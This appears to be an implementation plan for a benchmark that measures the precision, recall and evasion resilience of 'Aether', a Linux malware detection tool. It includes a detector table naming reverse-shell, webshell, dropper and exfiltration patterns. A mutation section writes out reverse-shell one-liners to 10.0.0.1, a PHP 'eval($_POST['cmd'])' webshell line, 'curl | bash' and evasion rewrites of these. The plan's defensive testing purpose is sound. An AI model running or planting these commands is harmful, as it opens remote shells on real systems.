


# Implementation Plan: Detection Accuracy & Validation Benchmark

**Branch**: `002-detection-accuracy-benchmark` | **Date**: 2026-10-03 | **Spec**: [`specs/002-detection-accuracy-benchmark/spec.md`](spec.md)  
**Governing Authority**: [Aether Constitution v1.0.0](file:///home/nick/Documents/doc/tools/WORKING_TOOLS/Aether/.specify/memory/constitution.md)

---

## 1. Summary

This feature establishes an empirical, scientific validation framework and structured test corpus to measure the true detection quality, precision, recall, false-positive rate, evasion resilience, and explainability of the Aether Linux threat-hunting engine.

The implementation preserves the finalized verdict architecture (`DetermineVerdict`, `EvidenceRecord`, `pkgdb.PackageDB`) and focuses strictly on **measurement, gap identification, and reproducible verification**—never on artificial threshold gaming or ungrounded signature expansion.

---

## 2. Technical Context

- **Language/Version**: Go 1.22+ (pure-Go build compatibility + optional CGO with YARA-X static archive linkage).
- **Primary Dependencies**: Standard library (`testing`, `encoding/json`, `path/filepath`, `os`, `regexp`), existing `internal/report`, `internal/scanner`, `internal/yara`, `internal/modules/*`, `internal/pkgdb`, `internal/events`.
- **Storage**: Inert file-based static test fixtures under `testdata/benchmark_corpus/`.
- **Testing**: Go test framework (`go test ./...` and `go test -tags yara ./test/benchmark/...`).
- **Target Platform**: Linux x86_64 / arm64 (kernel 3.10+).
- **Project Type**: Standalone CLI security tool and forensic inspection engine.
- **Performance Goals**: Benchmark execution completes in $<15\text{s}$ for the entire corpus; zero heap memory accumulation across multi-pass runs.
- **Constraints**: 100% offline; strictly static analysis (zero payload execution); deterministic finding sorting.
- **Scale/Scope**: 5 corpus categories, 39 subcategories, $\ge 100$ individual test scenarios.

---

## 3. Constitution Check & Invariants

*All items verified against [Aether Constitution v1.0.0](file:///home/nick/Documents/doc/tools/WORKING_TOOLS/Aether/.specify/memory/constitution.md):*

- [x] **Principle I (Forensic Safety & Read-Only Invariant)**: Zero execution of test payloads. All malicious cases remain inert static files or simulated process descriptors accessed via `safeopen.OpenRegularReadOnly`.
- [x] **Principle II (Security-First & Least Privilege)**: Benchmark harness runs cleanly as unprivileged non-root user.
- [x] **Principle III (Offline-First Architecture)**: Zero remote network queries, external malware downloads, or telemetry endpoints.
- [x] **Principle IV (Preserve Existing Architecture)**: Benchmark harness implemented in dedicated test packages (`test/benchmark/` and `internal/benchmark/`) without polluting production detection code.
- [x] **Principle V (Detection Integrity & Severity Standards)**: Evaluates full verdict tuples (`Verdict`, `Severity`, `Confidence`, `EvidenceStrength`). Score $\neq$ Verdict invariant strictly enforced.
- [x] **Principle VI (Mandatory MITRE & Actionable Remediation)**: Automated explainability auditor enforces all 8 required fields on every finding.
- [x] **Principle VII (Test Integrity & Verification Standard)**: 100% pass rate standard maintained across pure-Go and YARA-X builds.

---

## 4. Current Detection Architecture Assessment

The static audit across the current Aether codebase reveals the following subsystem capabilities and baseline performance:

1. **Filesystem Walker & Scanner** (`internal/scanner/scanner.go`):
   - Multi-threaded worker pool (`config.Config.Scan.Threads`) using `safeopen.OpenRegularReadOnly` with `O_NOFOLLOW | O_CLOEXEC | O_NONBLOCK | O_NOATIME`.
   - Single-pass file hashing (MD5, SHA-1, SHA-256) and memory-budget tracker (`MemoryBudgetTracker`).
   - Intra-file finding deduplication aggregating YARA and heuristic hits into canonical findings with `ContributingDetectors`.
2. **Native Go Heuristics Engine** (`internal/scanner/heuristics.go`):
   - 12 pure-Go AST/regex checks for ELF-in-temp, SUID binaries, private keys, reverse shells, webshells, ransomware routines, exfiltration stealers, and droppers.
   - Built-in context suppressors for documentation metadata (`.dist-info`, `.md`, `.txt`) and package test fixtures (`/test/`, `*_test.py`).
3. **Embedded YARA-X Engine** (`internal/yara/`):
   - 13 high-confidence embedded rules for Linux backdoors, webshells, rootkits, cryptominers, droppers, ransomware, and C2 exfiltration listeners.
   - Dual-engine integration querying `pkgdb.PackageDB` to downgrade uncorroborated package-owned script matches.
4. **Specialized Inspection Modules** (`internal/modules/*`):
   - `process`: `/proc` inspection auditing deleted binaries, `memfd:` memory execution, kernel thread masquerading, and unmapped daemons.
   - `persistence`: Unified multi-vector persistence correlation across systemd, cron, shell profiles, PAM hooks, and SSH authorized keys.
   - `network`: Linux socket table analysis (`/proc/net/tcp`, `/proc/net/udp`, packet sockets) auditing unmapped listeners and raw sockets.
   - `users`: Account audits for non-root UID 0 backdoors, empty password hashes, and world-writable shadow/passwd files.
   - `kernel`: LKM module integrity checks, modprobe execution hooks, and taint flags.
5. **Verdict Determination & Provenance** (`internal/report/`):
   - `DetermineVerdict`: Deterministic decision engine evaluating `EvidenceStrength`, `PackageStatus`, `ContextProfile`, and `CorroboratingSignals`.
   - `SortFindings`: Canonical sort by `(Path, LineNumber, RuleName)` ensuring 100% deterministic output ordering.

---

## 5. Complete Detector Coverage Matrix

| Subsystem | Detector Rule Name | Input / Evidence Required | Current Verdict Behavior | Known Limitations & Blind Spots |
| :--- | :--- | :--- | :--- | :--- |
| **Scanner** | `Heuristic_ELF_In_Dev` | 4-byte ELF magic `\x7fELF` in `/dev/*` (not `/dev/shm`, `/dev/pts`) | `ALERT` / `MALICIOUS` | Misses nested bind mounts; flags legitimate custom firmware writing to `/dev`. |
| **Scanner** | `Heuristic_ELF_In_Temp_Escalated` | ELF in temp + hidden filename (`.*`) or executable bit or IOC | `ALERT` / `MALICIOUS` | Misses non-hidden ELF executed via loader `ld-linux.so`. |
| **Scanner** | `Heuristic_ELF_In_Temp` / `BuildTree` | ELF in volatile dirs with build markers (`Cargo.toml`, `go.mod`) | `NOTICE` / `SAFE` | Misses malicious payloads mimicking build trees with fake `Cargo.toml`. |
| **Scanner** | `Heuristic_Hidden_Executable_In_System_Dir` | Hidden file (`.name`) with `mode & 0111 != 0` in `/bin`, `/usr/bin`, `/etc` | `WARNING` / `SUSPICIOUS` | Misses obfuscated binaries with visible, misleading names. |
| **Scanner** | `Heuristic_Suspicious_SUID_SGID` | SUID/SGID bit outside `/bin`, `/sbin`, `/usr/bin`, `/usr/lib` | `ALERT` / `MALICIOUS` | Flags third-party commercial software in `/opt`; misses GTFOBins in standard paths. |
| **Scanner** | `Heuristic_World_Writable_In_Etc` | World-writable mode (`S_IWOTH`) in `/etc/*` | `WARNING` / `SUSPICIOUS` | Misses group-writable configs owned by compromised accounts. |
| **Scanner** | `File_Suspicious_Private_Key_Location` | OpenSSH/PEM private key headers in `/tmp`, `/usr`, `/var`, `/lib` | `WARNING` / `SUSPICIOUS` | Only inspects first 2KB; misses encrypted PKCS#12 or Base64 bundles. |
| **Scanner** | `Script_Reverse_Shell_Interactive` | `/dev/tcp`, netcat `-e`, or socat shell pipes in unowned script | `ALERT` / `MALICIOUS` | Misses obfuscated variable expansions (`$SH -i >& /dev/$PROTO/...`). |
| **Scanner** | `Script_OpenSSL_Reverse_Shell` | `openssl s_client -connect ... \| sh` in unowned script | `ALERT` / `MALICIOUS` | Misses multi-line wrapped pipelines separating `s_client` and `sh`. |
| **Scanner** | `Script_RedTeam_Persistence_Framework` | String signatures (`GHOST-SHELL`, `KALI-MASTER`, fake services) | `ALERT` / `MALICIOUS` | Misses rebranded or custom-named adversary toolkits. |
| **Scanner** | `Script_Process_Hiding_Procfs` | `mount -t tmpfs ... /proc/<PID>` in unowned script | `ALERT` / `MALICIOUS` | Misses unshare/namespace proc hiding and kernel VFS hooks. |
| **Scanner** | `Script_Python_Ransomware_Encryptor` | Fernet/AES + `os.walk` + `.encrypt`/`.locked`/`ransom` | `ALERT` / `MALICIOUS` | Misses compiled Go/Rust/C ransomware without Python strings. |
| **Scanner** | `Script_Data_Exfiltration_Stealer` | Socket/HTTP + `os.walk` + `sendall`/`post` + `exfil`/`compress` | `ALERT` / `MALICIOUS` | Misses exfiltration via standard tools (`rsync`, `rclone`, `curl -F`). |
| **Scanner** | `Script_Download_And_Execute` | `curl/wget ... \| sh/bash` without persistence | `WARNING` / `SUSPICIOUS` (escalates to `MALICIOUS` if autostarted) | Misses multi-stage droppers downloading to disk before execution. |
| **YARA** | `Linux_Webshell_PHP_Generic_Backdoor` | `eval/assert/system` + `$_POST/$_GET` superglobals | `ALERT` / `MALICIOUS` | Misses webshells using database-driven dynamic calls. |
| **YARA** | `Linux_Webshell_PHP_Known_Families` | Specific webshell framework strings (c99, r57, WSO, Weevely) | `ALERT` / `MALICIOUS` | Misses heavily obfuscated variants with stripped framework headers. |
| **YARA** | `Linux_Webshell_JSP_Runtime_Exec` | `<%` + `Runtime.exec` / `ProcessBuilder` + `request.getParameter` | `ALERT` / `MALICIOUS` | Misses compiled servlet classes in `.jar`/`.war` without JSP tags. |
| **YARA** | `Linux_Backdoor_Reverse_Shell_OneLiner` | Multi-language reverse shell one-liner strings | `ALERT` / `MALICIOUS` | Misses Base64-encoded or XOR-encrypted shell wrappers. |
| **YARA** | `Linux_Backdoor_Encrypted_Reverse_Shell` | OpenSSL `s_client` pipes or Socat `openssl-connect` | `ALERT` / `MALICIOUS` | Misses custom TLS sockets in compiled binaries. |
| **YARA** | `Linux_Implant_RedTeam_Persistence_Framework` | Implant persistence hooks, fake services, and FIFO shells | `ALERT` / `MALICIOUS` | Misses novel persistence frameworks without known string identifiers. |
| **YARA** | `Linux_Rootkit_LDPRELOAD_Hook_Artifact` | ELF containing `/etc/ld.so.preload` + `dlsym(RTLD_NEXT)` + hooks | `ALERT` / `MALICIOUS` | Misses pure kernel rootkits or static binary patching. |
| **YARA** | `Linux_Rootkit_Diamorphine_Reptile_Strings` | Magic strings (`diamorphine`, `is_invisible`, `r00t_gr0up`) | `ALERT` / `MALICIOUS` | Misses recompiled rootkits with renamed symbols. |
| **YARA** | `Linux_Malware_Cryptominer_Stratum_Pool` | Stratum protocol URI + mining pool domains | `WARNING` / `SUSPICIOUS` | Misses private mining proxies without standard domain names. |
| **YARA** | `Linux_Dropper_Remote_Pipe_Shell_Execution` | `curl/wget ... \| sh/python` | `WARNING` / `SUSPICIOUS` | Misses droppers using separate download and `chmod +x` steps. |
| **YARA** | `Linux_Ransomware_Python_Locker` | Fernet/AES + `os.walk` + `.encrypt`/`.locked` | `ALERT` / `MALICIOUS` | Misses custom encryption ciphers without standard library imports. |
| **YARA** | `Linux_Malware_Data_Exfiltration_Client` | Client socket + file crawl + compression + exfil markers | `ALERT` / `MALICIOUS` | Misses stealers using standard system utilities (`curl -T`, `scp`). |
| **YARA** | `Linux_Malware_Data_Exfiltration_Server` | Server socket + listen/accept + stolen tree strings | `WARNING` / `SUSPICIOUS` | Misses ephemeral cloud storage buckets and webhooks. |
| **Process** | `Process_Deleted_Binary_Suspicious_Location` | `/proc/<PID>/exe` pointing to deleted binary in `/tmp`, `/var/tmp` | `ALERT` / `MALICIOUS` | Misses processes keeping a valid unlinked file descriptor open elsewhere. |
| **Process** | `Process_Deleted_Binary_Package_Upgrade` | `/proc/<PID>/exe` deleted but original path exists with new inode | `NOTICE` / `SUSPICIOUS` | Misses attacker replacing binary on disk after execution to simulate upgrade. |
| **Process** | `Process_Fileless_Memory_ELF` | `/proc/<PID>/exe` resolving to `memfd:` or deleted memory descriptor | `ALERT` / `MALICIOUS` | Misses code injection into running benign processes (process hollowing). |
| **Process** | `Process_Kernel_Thread_Masquerade` | Userland process cmdline wrapped in `[...]` with user UID/VM size | `ALERT` / `MALICIOUS` | Misses processes with subtle non-bracketed names mimicking daemons. |
| **Process** | `Process_System_Daemon_Masquerade` | Known daemon name (`sshd`) executing outside `/sbin`, `/usr/sbin` | `ALERT` / `MALICIOUS` | Misses arbitrary non-standard process names not in dictionary. |
| **Process** | `Process_Root_User_Writable_Exe` | Root process executing binary from user-writable directory | `ALERT` / `MALICIOUS` | Misses privilege escalation where permissions were locked down after launch. |
| **Persistence**| `Persistence_Multi_Vector_Persistence` | Payload referenced across $\ge 2$ subsystems (systemd, cron, SSH) | `ALERT` / `MALICIOUS` | Misses adversary using distinct binary names/symlinks for each vector. |
| **Persistence**| `Persistence_Reverse_Shell_Primitive` | Autostart entry executing `/dev/tcp`, netcat `-e`, or openssl | `ALERT` / `MALICIOUS` | Misses obfuscated shell invocations decoding payload from external files. |
| **Persistence**| `Persistence_Autostart_Tunnel` | Service establishing reverse SSH tunnel (`chisel`, `ngrok`, `ssh -R`) | `ALERT` / `MALICIOUS` | Misses encrypted VPN tunnels configured via standard WireGuard. |
| **Persistence**| `Persistence_Exec_From_Temp` / `Hidden_Path`| Autostart target located in `/tmp`, `/var/tmp`, or hidden directory | `ALERT` / `MALICIOUS` or `WARNING` / `SUSPICIOUS` | Misses persistence pointing to `/usr/bin` wrapper script executing payload. |
| **Persistence**| `Persistence_Missing_Target_File` | Autostart unit pointing to non-existent executable file | `NOTICE` / `SUSPICIOUS` | Misses dead hooks where payload is staged at boot time. |
| **Network** | `Network_Wildcard_Listener_Unrecognized_Process`| Unmapped or unrecognized process listening on `0.0.0.0` or `::` | `WARNING` / `SUSPICIOUS` | Flags custom development web servers (`python3 -m http.server`). |
| **Network** | `Network_Suspicious_Raw_Packet_Socket` | Non-standard process opening raw packet socket (`SOCK_RAW`) | `ALERT` / `MALICIOUS` | Suppressed for whitelisted tools (`tcpdump`, `wireshark`). |
| **Kernel** | `Kernel_Hidden_LKM_Module` | Module present in `/sys/module` but hidden from `/proc/modules` | `ALERT` / `MALICIOUS` | Requires privileged access to `/sys` and `/proc`. |
| **Kernel** | `Kernel_Modprobe_Install_Command` | `install <module> /bin/...` command in `/etc/modprobe.d/*.conf` | `WARNING` / `SUSPICIOUS` | Flags standard distribution workaround directives for blacklisting. |
| **Users** | `Users_Extra_UID0_Account` | Non-root account with `UID == 0` in `/etc/passwd` | `ALERT` / `MALICIOUS` | High-confidence structural check (0 false positives). |
| **Users** | `Users_Shadow_Empty_Password` | Account with empty password hash field in `/etc/shadow` | `ALERT` / `MALICIOUS` | Requires root privileges (`EACCES` produces `UNKNOWN`). |
| **Users** | `Users_Passwd_World_Writable` / `Shadow_Insecure` | Insecure permissions on `/etc/passwd` or `/etc/shadow` | `ALERT` / `MALICIOUS` | High-confidence permission check. |

---

## 6. Benchmark Architecture & Engine Design



### Components

1. **`internal/benchmark/types.go`**: Core structs (`BenchmarkCorpusCase`, `ExpectedOutcome`, `BenchmarkResult`, `BenchmarkMetrics`, `ExplainabilityAudit`).
2. **`internal/benchmark/loader.go`**: Discovers, parses, and instantiates test cases from `testdata/benchmark_corpus/`.
3. **`internal/benchmark/evaluator.go`**: Runs Aether scanner/modules against corpus cases and compares actual findings against the immutable contract.
4. **`internal/benchmark/metrics.go`**: Calculates $TP$, $FP$, $TN$, $FN$, Precision, Recall, F1-Score, False Positive Rate, and Detection Coverage Index.
5. **`internal/benchmark/explainability.go`**: Enforces the 8-question transparency quality gate on all emitted findings.
6. **`internal/benchmark/mutator.go`**: Generates safe static lexical mutations (quoting, whitespace, variable expansion, casing) to evaluate static evasion resistance.
7. **`test/benchmark/benchmark_test.go`**: Top-level test harness executing all categories with `go test -v -tags yara ./test/benchmark/...`.

---

## 7. Corpus Directory Architecture

```text
testdata/benchmark_corpus/
├── benign/
│   ├── 01_system_daemons/
│   ├── 02_package_binaries/
│   ├── 03_python_packages/
│   │   ├── dist_info_metadata/
│   │   ├── unit_test_trees/
│   │   └── doc_examples/
│   ├── 04_dev_toolchains/
│   │   ├── cargo_target/
│   │   ├── go_build/
│   │   └── cmake_build/
│   ├── 05_pentest_tooling/
│   ├── 06_admin_scripts/
│   ├── 07_standard_cron/
│   ├── 08_systemd_units/
│   ├── 09_ssh_configs/
│   ├── 10_network_listeners/
│   └── 11_kernel_modules/
├── malicious/
│   ├── 01_reverse_shells/
│   ├── 02_encrypted_reverse_shells/
│   ├── 03_webshells/
│   ├── 04_ransomware_lockers/
│   ├── 05_exfiltration_stealers/
│   ├── 06_download_droppers/
│   ├── 07_rogue_accounts/
│   ├── 08_ssh_persistence/
│   ├── 09_systemd_cron_persistence/
│   ├── 10_memory_execution/
│   ├── 11_rootkit_indicators/
│   └── 12_ioc_matches/
├── suspicious/
│   ├── 01_dual_use_scripts/
│   ├── 02_deleted_binaries_upgraded/
│   ├── 03_unmapped_listeners/
│   ├── 04_loopback_debug_services/
│   ├── 05_custom_suid/
│   └── 06_private_keys_home/
├── edge_cases/
│   ├── 01_cyclic_symlinks/
│   ├── 02_sparse_files/
│   ├── 03_container_namespaces/
│   ├── 04_multi_vector_collisions/
│   ├── 05_trojanized_packages/
│   └── 06_compound_extensions/
└── partial_visibility/
    ├── 01_unreadable_shadow/
    ├── 02_restricted_cron/
    ├── 03_restricted_proc/
    └── 04_missing_capabilities/
```

---

## 8. Verdict-Aware Metric Design

### Categorization Truth Table

| Expected Scenario Category | Actual Verdict: `MALICIOUS` | Actual Verdict: `SUSPICIOUS` | Actual Verdict: `SAFE` / Clean | Actual Verdict: `UNKNOWN` |
| :--- | :---: | :---: | :---: | :---: |
| **Category A: Benign** | **False Positive ($FP$)** ❌ | Warning Anomaly (Checked) | **True Negative ($TN$)** ✅ | Visibility Observation |
| **Category B: Malicious** | **True Positive ($TP$)** ✅ | Detection Downgrade ⚠️ ($FN$) | **False Negative ($FN$)** ❌ | **False Negative ($FN$)** ❌ |
| **Category C: Suspicious** | **False Positive ($FP$)** ❌ (Over-escalation) | **Correct Triage** ✅ | Under-classification ⚠️ ($FN$) | Visibility Observation |
| **Category E: Partial Vis**| **Classification Error** ❌ ($FP$) | Classification Error ❌ | **False Clean Pass** ❌ | **Correct Abstention** ✅ |

### Mathematical Formulas & Zero-Denominator Safety

All metrics must implement explicit division-by-zero protection to guarantee that no `NaN`, `+Inf`, `-Inf`, or undefined numbers are produced during benchmark execution or JSON serialization:

- **Precision**:
  $$\text{Precision} = \begin{cases} 1.0 & \text{if } TP = 0 \land FP = 0 \text{ (zero false alarms raised)} \\ 0.0 & \text{if } TP + FP = 0 \land FP > 0 \\ \frac{TP}{TP + FP} & \text{otherwise} \end{cases}$$

- **Recall**:
  $$\text{Recall} = \begin{cases} 1.0 & \text{if } TP = 0 \land FN = 0 \text{ (zero positive targets missed)} \\ 0.0 & \text{if } TP + FN = 0 \land FN > 0 \\ \frac{TP}{TP + FN} & \text{otherwise} \end{cases}$$

- **F1-Score**:
  $$\text{F1} = \begin{cases} 0.0 & \text{if } \text{Precision} + \text{Recall} = 0.0 \\ 2 \times \frac{\text{Precision} \times \text{Recall}}{\text{Precision} + \text{Recall}} & \text{otherwise} \end{cases}$$

- **False Positive Rate**:
  $$\text{FPR} = \begin{cases} 0.0 & \text{if } FP + TN = 0 \\ \frac{FP}{FP + TN} & \text{otherwise} \end{cases}$$

- **Detection Coverage Index**:
  $$DCI = \frac{\text{Detected Malicious Subclasses}}{\text{Total Cataloged Malicious Subclasses (12)}} \times 100\%$$

- **Separate Triage Quality Metrics (Non-Binary Evaluation)**:
  To ensure standard binary metrics do not mask nuance or conflate `UNKNOWN` with `SAFE`:
  - **Suspicious Triage Accuracy**:
    $$\text{SuspiciousTriageAccuracy} = \frac{\text{Category C Correctly Triaged as SUSPICIOUS}}{\text{Total Category C Cases}} \times 100\%$$
    *(Penalizes both over-escalation to `MALICIOUS` ($FP$) and under-classification to `SAFE` ($FN$)).*
  - **Abstention Accuracy**:
    $$\text{AbstentionAccuracy} = \frac{\text{Category E Correctly Reported as UNKNOWN}}{\text{Total Category E Cases}} \times 100\%$$
    *(Enforces `UNKNOWN != SAFE`; penalizes false clean passes).*

---

## 9. Explainability Validation Design

Every finding evaluated by `internal/benchmark/explainability.go` must pass an automated 8-point checklist:

1. **WHAT**: Finding Title $\neq$ empty and RuleName $\neq$ empty.
2. **WHERE**: Target path non-empty or PID $>0$.
3. **WHY**: Plain-English explanation $\ge 30$ characters explaining the specific threat.
4. **EVIDENCE**: Cryptographic SHA-256 present (for files) and matched pattern/condition snippet documented.
5. **CONTEXT**: `PackageStatus` populated (`verified_package`, `unowned`, `modified_package`) and `ContextProfile` populated (`standard`, `doc_metadata`, `package_test`, `build_tree`, `pentest_tool`).
6. **CORROBORATION**: List of corroborating signals recorded if evidence strength is `StrengthCorroborated`.
7. **CONFIDENCE**: Explicit confidence (`HIGH`, `MEDIUM`, `LOW`) with non-empty `ConfidenceRationale`.
8. **REMEDIATION**: Actionable remediation slice containing $\ge 1$ clear step.

---

## 10. Mutation & Evasion Test Design

The static mutator (`internal/benchmark/mutator.go`) takes baseline malicious fixtures and generates deterministic syntactic variations:

1. **Quoting Variations**:
   - `bash -i >& /dev/tcp/10.0.0.1/4444 0>&1` $\to$ `bash -i >& "/dev/tcp"/"10.0.0.1"/4444 0>&1`
2. **Whitespace & Tab Injection**:
   - `nc -e /bin/sh 10.0.0.1 4444` $\to$ `nc   -e   /bin/sh   10.0.0.1   4444`
3. **Variable Indirection**:
   - `eval($_POST['cmd'])` $\to$ `$a = '_POST'; eval($$a['cmd']);`
4. **Alternate Interpreters**:
   - `curl http://... | bash` $\to$ `curl http://... | zsh`
5. **Path Aliasing**:
   - `/bin/sh` $\to$ `/usr/bin/../bin/sh` or `/bin/./sh`

The test suite compares baseline detection recall against mutation recall to produce the **Evasion Resilience Score**:
$$\text{Evasion Resilience} = \begin{cases} 0.0 & \text{if Total Mutations} = 0 \\ \frac{\text{Mutations Detected}}{\text{Total Mutations Tested}} \times 100\% & \text{otherwise} \end{cases}$$

---

## 11. Determinism & Path Normalization Strategy

1. **Relative Path Normalization Invariant**: All finding paths MUST be normalized relative to the benchmark corpus root (e.g. `testdata/benchmark_corpus/` $\to$ `benign/03_python_packages/metadata.txt`) before contract evaluation, deduplication, and serialization. Absolute host filesystem paths (e.g. `/home/user/...`) must never leak into benchmark assertions or JSON output.
2. **Sorting Invariant**: All finding slices must pass through `report.SortFindings(...)` which sorts strictly by `(NormalizedPath, LineNumber, RuleName)` before evaluation.
3. **Dynamic Metadata Filtering**: Timestamps, scan durations, and ephemeral PID numbers are isolated into a `RunMetadata` struct and excluded from deterministic JSON equality assertions.
4. **Multi-Pass Assertion**: The benchmark harness executes 10 consecutive concurrent iterations across the corpus and asserts byte-for-byte JSON equality of the `.findings` array across all 10 runs.

---

## 11.1 Hermetic Package Database Simulation Strategy

1. **Host-Independent Package DB**: The benchmark runner must instantiate an in-memory `pkgdb.MockPackageDB` populated directly from the per-case manifest properties (`is_package_owned`, `package_name`).
2. **Zero Host Coupling**: The test execution MUST NOT read from `/var/lib/dpkg`, `/var/lib/pacman`, or host rpm databases. The benchmark must yield 100% identical outputs on Debian, Arch, Fedora, Alpine, or macOS CI runners.
3. **Production Non-Interference**: Aether's production `pkgdb.PackageDB` remains completely untouched. The benchmark harness simply injects the mock implementation into the scanner configuration.

---

## 12. Performance Measurement Strategy

1. **Execution Time**: The benchmark runner measures total execution duration and per-case execution latency.
2. **Memory Tracking**: Uses `runtime.ReadMemStats` before and after full benchmark passes to verify zero memory leaks and heap retention $<50\text{MB}$.
3. **Overhead Assertion**: Asserts that contextual evaluation adds $<5\%$ overhead compared to raw uncontextualized scanning.

---

## 13. Regression System

Every discovered false positive or missed detection must:
1. Be preserved as an immutable fixture in `testdata/benchmark_corpus/` under the appropriate category.
2. Have a corresponding test entry in `test/benchmark/benchmark_test.go`.
3. Be executed automatically in CI via `go test ./...` and `go test -tags yara ./test/benchmark/...`.

---

## 14. File & Component Changes

### New Files
- `internal/benchmark/types.go`: Benchmark data models, contracts, and metric structures.
- `internal/benchmark/loader.go`: Test corpus loader and fixture parser.
- `internal/benchmark/evaluator.go`: Decision evaluator comparing findings to expected contracts.
- `internal/benchmark/metrics.go`: Precision, recall, FPR, F1, and DCI calculator.
- `internal/benchmark/explainability.go`: 8-question explainability compliance auditor.
- `internal/benchmark/mutator.go`: Static evasion mutation generator.
- `test/benchmark/benchmark_test.go`: Top-level Go test suite executing full benchmark categories.
- `testdata/benchmark_corpus/`: Complete structured corpus fixtures and contracts.

### Modified Files
- `internal/report/finding.go`: Minor helper functions if needed for benchmark serialization.
- `Makefile`: Added `make benchmark` target executing `go test -v -tags yara ./test/benchmark/...`.

### Untouched Files (Invariant)
- `internal/report/verdict.go`: Existing verdict architecture preserved without modification.
- `internal/safeopen/safeopen.go`: Read-only forensic file access preserved.
- `internal/scanner/scanner.go`: Scanner execution engine preserved.
- `internal/yara/yarax_engine.go`: YARA engine preserved.
- `internal/modules/*`: Module inspection routines preserved.

---

## 15. Dependency Graph & Implementation Phases



### Implementation Phases

- **Phase 1: Core Types & Loader (`internal/benchmark/`)**: Implement data structures, corpus schema validator, and fixture loader.
- **Phase 2: Corpus Construction (`testdata/benchmark_corpus/`)**: Create synthetic static fixtures and JSON contracts for all 5 categories (Benign, Malicious, Suspicious, Edge, Partial Visibility).
- **Phase 3: Evaluator & Metrics Calculator (`internal/benchmark/`)**: Implement `EvaluateCase`, `CalculateMetrics`, and JSON report serialization.
- **Phase 4: Explainability & Mutation Engine (`internal/benchmark/`)**: Implement the 8-question audit validator and static lexical mutation generators.
- **Phase 5: Benchmark Runner (`test/benchmark/`)**: Build `benchmark_test.go` with category subtests, determinism checks, and performance metrics.
- **Phase 6: Validation & Documentation**: Execute benchmark across pure-Go and YARA-X builds, verify quality gates, and generate empirical baseline report.

---

## 16. Validation Commands

```bash
# 1. Run complete detection benchmark suite
go test -v -tags yara ./test/benchmark/...

# 2. Run Category A Benign false-positive validation (must produce 0 MALICIOUS alerts)
go test -v -tags yara ./test/benchmark/... -run TestCategoryA_Benign

# 3. Run Category B Malicious threat recall validation (must achieve >= 95% recall)
go test -v -tags yara ./test/benchmark/... -run TestCategoryB_Malicious

# 4. Run static evasion resilience assessment
go test -v -tags yara ./test/benchmark/... -run TestStaticEvasionResilience

# 5. Run explainability compliance audit
go test -v ./test/benchmark/... -run TestExplainabilityCompliance

# 6. Verify 100% deterministic reproducibility
go test -v -tags yara ./test/benchmark/... -run TestBenchmarkDeterminism
```

---

## 17. Risks & Mitigations

| Risk | Mitigation |
| :--- | :--- |
| **Accidental execution of malicious test fixtures** | **Strict Non-Negotiable Invariant**: Fixtures are stored as static `.txt` or `.sample` files with mode `0644`. Scanner inspects files strictly via `safeopen.OpenRegularReadOnly`. Zero execution calls exist in the benchmark runner. |
| **Benchmark "gameplay" (altering expected outcomes to inflate scores)** | Expected outcomes are defined independently in immutable JSON contracts based on real-world threat definitions, not engine implementation details. |
| **Flaky tests due to environment differences** | All benchmark tests use hermetic synthetic fixtures in `testdata/benchmark_corpus/` with mocked package databases rather than live host dependencies. |
| **Performance overhead in CI** | Synthetic fixtures are kept compact ($<100\text{KB}$ per fixture), allowing the complete 100+ case benchmark to run in $<15\text{s}$. |

---

## 18. Explicit Non-Goals

- **No Engine Rewrites**: This plan does not redesign or rewrite Aether's core scanner or verdict engine.
- **No Threshold Lowering**: Sensitivity thresholds will not be lowered to artificially boost recall at the expense of false positives.
- **No Dynamic Sandboxing**: Dynamic syscall tracing and live sandbox emulation are out of scope.
- **No Remote Threat Feeds**: Air-gapped offline operation is strictly maintained.

---

## 19. Final Acceptance Criteria

